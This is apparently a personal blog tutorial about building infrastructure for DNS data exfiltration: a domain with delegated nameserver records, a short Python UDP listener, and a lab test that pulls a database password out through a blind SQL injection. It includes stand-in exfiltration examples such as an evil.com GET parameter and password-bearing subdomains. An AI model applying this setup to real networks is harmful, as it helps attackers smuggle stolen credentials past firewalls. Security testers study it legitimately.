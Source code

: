 ```yaml
---
title: Setting Up Your Own Malicious DNS Server For Data Exfiltration (Without a DNS Server)
date: 2020-06-10
draft: false
---
```


Data exfiltration is a key component of any red team/penetration testing assesment. Sometimes it's as simple as scp'ing the sensitive data over an SSH connection. Other times, however, more sophisticated methods need to be used. One such common method is exfiltrating data through specially crafted URL requests to your public web server, such as placing the sensitive data as a GET parameter (www.evil.com?stolendata=password123). But what if firewall permissions are blocking any outbound HTTP traffic on the victim server? Or has a whitelist of allowed sites and yours isn't on it (obviously)? Another method is still possible: DNS.

In this post, I'll be showing how I set up a public malicious (depending on how you use it) DNS server for exfiltrating data without actually having to run a DNS server ;). 

## [](#header-1)What Is DNS Exfiltration?

The general idea of DNS exfiltration isn't unsimilar to exfiltrating data through HTTP web requests. Sensitive data is attached to a DNS query that can then be viewed by our malicious DNS server. In this case, the sensitive data is prepended onto the subdomain of our controlled public domain. For example, if we were able to access the password of a user on a victim's machine, in order to exfil that data, we would have the victim machine make a DNS request for password123.myevildomain.com, with the "password123" being the victim's password. Since own myevildomain.com, the request to resolve password123 would come to my server. The best part is, I don't even have to actually respond to the request since I've already got what I came for.

## [](#header-2)What You'll Need

- Public Server you control (I used a digital ocean server)
- Public domain name linked to that server

## [](#header-3)Setting Up The Pulbic Domain

The first thing you need is a publicly registered domain. You can do this on a number of sites, but I used godaddy to register john-woodman.com and pointed it to my digitalocean server.

### [](#header-4)Creating A Hostname For Our Nameserver
Once I registered the domain, I then added my own hostname as a nameserver through godaddy. The reason I had to do this is because nameserver records can't specify an IP address, it must be a hostname. I made the hostname for the nameserver ns.john-woodman.com and pointed it to my digitalocean server IP.

![](/assets/2020-06-10-DNS-Exfiltration-Setup/1.png)

### [](#header-5)Setting Nameservers To DigitalOcean's
DigitalOcean actually has the ability to manage DNS records for you. While I could do everything on godaddy or whichever name resolution service you chose, I found DigitalOcean has a nice, simple interface. In godaddy, I set the custom nameservers to DigitalOcean's so that any DNS requests made to john-woodman.com would go to DigitalOcean.

![](/assets/2020-06-10-DNS-Exfiltration-Setup/2.png)

Now that we have that setup, we can do everything else on DigitalOcean.

### [](#header-6)Redirecting Subdomain Requests
I now have to create a few DNS records so that any requests to a specific subdomain will be redirected to my DNS Server instead of being handled by DigitalOcean's. I first have to create an A record that points all requests to john-woodman.com to my IP (this is mostly to keep my website up and running). I then have to create an A record that points the nameserver domain (ns.john-woodman.com) to my server's IP. Now, unfortunately, with NS records, I'm not able to specify a wildcard in the subdomain (such as `*`.john-woodman.com). From what I can gather, it seems to just not be supported by DNS, with no reason why. Either way, we can get around this by actually just specifying any name for the subdomain, and all subdomain requests sent to that subdomain (subception) will be directed to our DNS server. In my case, I chose a completely random subdomain steve.john-woodman.com. You can call it whatever you want (probably best not to have special characters just to be safe). So when im exfiltrating data, the DNS request would look like for example: password123.steve.john-woodman.com. This is what my DNS configuration looks like on DigitalOcean.

![](/assets/2020-06-10-DNS-Exfiltration-Setup/3.png)

## [](#header-7)Setting Up The Listener
The nice part is we don't actually have to run any DNS service on our server. We can just set up a simple python listener, sift through the data we recieve and grab what we need. Below is the code I wrote to listen on UDP port 53 (DNS requests come in on UDP for the most part).

{% highlight python %}
import socket
import sys
from dnslib import DNSRecord

server = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server.bind(('0.0.0.0', 53))

while True:
    data, addr = server.recvfrom(4096)
    d = DNSRecord.parse(data)
    print(d.questions[0]._qname)
    if data:
        server.close()
        break
{% endhighlight %}

## [](#header-8)Testing and Exploiting
To make sure that it works, I can run a simple nslookup and see if my listener picks up the request.

![](/assets/2020-06-10-DNS-Exfiltration-Setup/4.png)

The nslookup failed, but thats expected since for one, we don't actually have any DNS service running, and second, the requested subdomain doesn't exist. But as you can see, our server did recieve the request and, most importantly, we can see the subdomain.

![](/assets/2020-06-10-DNS-Exfiltration-Setup/5.png)

## [](#header-9)Exploiting
To really fully test our setup, I created a simple vulnerable webserver with a login page connected to a PostgreSQL database that contains login credentials. The webserver is vulnerable to SQL injection, but no output is returned to the user. There's a few different methods I could use (time-based for example), but why not use DNS exfiltration. 

![](/assets/2020-06-10-DNS-Exfiltration-Setup/6.png)

I won't go into the exploit itself, but you can read about it [here](https://portswigger.net/web-security/sql-injection/blind). Using Burp, I sent the URL encoded exploit that retrieved the password from the SQL table and sent it as the subdomain in the DNS request.

![](/assets/2020-06-10-DNS-Exfiltration-Setup/7.png)

With the listener running on our server, we recieved the DNS request and can see the password that was stored in the PostgreSQL database set as the subdomain!

![](/assets/2020-06-10-DNS-Exfiltration-Setup/8.png)

## [](#header-10)Conclusion
The inspiration for this project was trying to run my own server for DNS exfiltration instead of having to pay for the pro version of BurpSuite, which has a BurpCollaborator that will do this for you. I learned a lot more about DNS through this project, and I hope I was able to help you learn something too!
